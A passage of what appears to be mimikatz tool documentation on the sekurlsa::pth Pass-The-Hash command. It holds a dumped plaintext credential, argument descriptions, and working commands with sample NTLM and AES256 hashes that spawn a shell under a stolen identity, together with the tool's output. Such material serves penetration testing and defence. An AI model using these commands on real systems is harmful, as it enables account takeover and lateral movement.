```
         [00000000]
         * Username : nas\admin
         * Domain   : nas.chocolate.local
         * Password : anotherpassword
```

## pth
> Pass-The-Hash

`mimikatz` can perform the well-known operation 'Pass-The-Hash' to run a process under another credentials with `NTLM` hash of the user's password, instead of its real password.

For this, it starts a process with a fake identity, then replaces fake information (`NTLM` hash of the fake password) with real information (`NTLM` hash of the real password).

**Arguments:**
* `/user` - the username you want to impersonate, keep in mind that Administrator is not the only name for this well-known account.
* `/domain` - the fully qualified domain name - without domain or in case of local user/admin, use computer or server name, `workgroup` or whatever.
* `/rc4` or `/ntlm` - _optional_ - the RC4 key / NTLM hash of the user's password.
* `/aes128` - _optional_ - the AES128 key derived from the user's password and the realm of the domain.
* `/aes256` - _optional_ - the AES256 key derived from the user's password and the realm of the domain.
* `/run` - _optional_ - the command line to run - default is: `cmd` to have a shell.

```
mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
user    : Administrateur
domain  : chocolate.local
program : cmd.exe
NTLM    : cc36cf7a8514893efccd332446158b1a
  |  PID  712
  |  TID  300
  |  LUID 0 ; 362544 (00000000:00058830)
  \_ msv1_0   - data copy @ 000F8AF4 : OK !
  \_ kerberos - data copy @ 000E23B8
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ des_cbc_md5       -> null
   \_ des_cbc_crc       -> null
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace -> null
```
Also valid on Windows recent versions:
* `sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9`
* `sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9`
